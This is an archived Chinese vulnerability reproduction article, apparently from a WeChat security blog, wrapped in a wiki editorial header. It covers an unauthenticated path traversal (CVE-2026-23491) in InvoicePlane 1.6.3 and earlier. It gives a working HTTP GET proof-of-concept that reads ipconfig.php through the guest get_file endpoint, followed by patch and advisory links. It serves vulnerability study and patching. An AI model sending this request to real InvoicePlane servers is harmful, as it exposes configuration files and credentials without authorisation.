



# 【成功复现】InvoicePlane路径遍历漏洞(CVE-2026-23491)

> 编号角色校订（2026-10-04）：按技术主体及多编号分节核对主讨论对象、链成员与引用，当前编号字段据此更新；旧编号原值及 `identifier_status` 均保留，变更前字段保存在 `previous_*`。后文原有角色待核项按当前字段阅读，版本、配置及证据缺口未因此自动解决；原作者的复现声明不升级为维护者复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：InvoicePlane CVE-2026-23491
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：仅网络可达省略Web服务器编码斜杠/路径规范化及进程文件权限；提供精确官方commit和GHSA-88gq-mv54-v3fc但未明确首修版本
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. <=1.6.3与Guest/Get/get_file未授权遍历叙述连贯
2. Host 127.0.01拼写错误
3. 仅网络可达省略Web服务器编码斜杠/路径规范化及进程文件权限
4. 配置读取结果仅截图无响应文本
5. 提供精确官方commit和GHSA-88gq-mv54-v3fc但未明确首修版本
6. 重复推广图可清理，作者成功复现不代表本审验证

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 弥天安全实验室
                    弥天安全实验室  弥天安全实验室   2026-09-16 04:26  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
  
  
  
  
**0x01漏洞介绍**  
  
  
  
  
  
InvoicePlane是InvoicePlane团队开源的一个应用软件。提供一个自托管的开源应用程序,用于管理您的报价,发票,客户和付款。  
  
InvoicePlane 1.6.3及之前版本存在路径遍历漏洞，该漏洞源于Guest模块Get控制器中的get_file方法存在路径遍历，可能导致读取任意文件。  
  
  
  
  
  
**0x02影响版本**  
  
  
InvoicePlane 1.6.3及之前版本【漏洞成因接口未授权，传参未过滤】  
  
  
**利用条件：**  
  
网络可达  
  
  
  
  
  
  
  
**0x03漏洞复现**  
  
  
1.访问环境  
  
  
  
  
2.漏洞利用  
  
poc  
```
GET /index.php/guest/get/get_file/..%2f..%2fipconfig.php HTTP/1.1
Host: 127.0.01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept-Encoding: gzip
```  
  
漏洞测试，成功读取 ipconfig.php文件内容  
  
  
  
  
3.弥天安全实验室漏洞库【已验证】  
  
  
  
  
  
  
**0x04修复建议**  
  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：  
  
临时缓解措施：  
  
安全防御设备WAF、IPS、防火墙等阻断攻击行为。  
  
  
建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！     
```
https://github.com/InvoicePlane/InvoicePlane/commit/add8bb798dde621f886823065ef1841986543c69
https://github.com/InvoicePlane/InvoicePlane/security/advisories/GHSA-88gq-mv54-v3fc
https://github.com/InvoicePlane/InvoicePlane/releases
```  
  
  
技术交流群  
 ➕VX：xyzy0720  
  
  
弥天简介  
  
学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。  
  
口号 网安引领时代，弥天点亮未来  
  
  
  
  
  
   
  
  
知识分享完了  
  
喜欢别忘了关注我们哦~  
  
学海浩茫，  
  
予以风动，  
  
必降弥天之润！  
  
  
   弥  天  
  
安全实验室  
  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
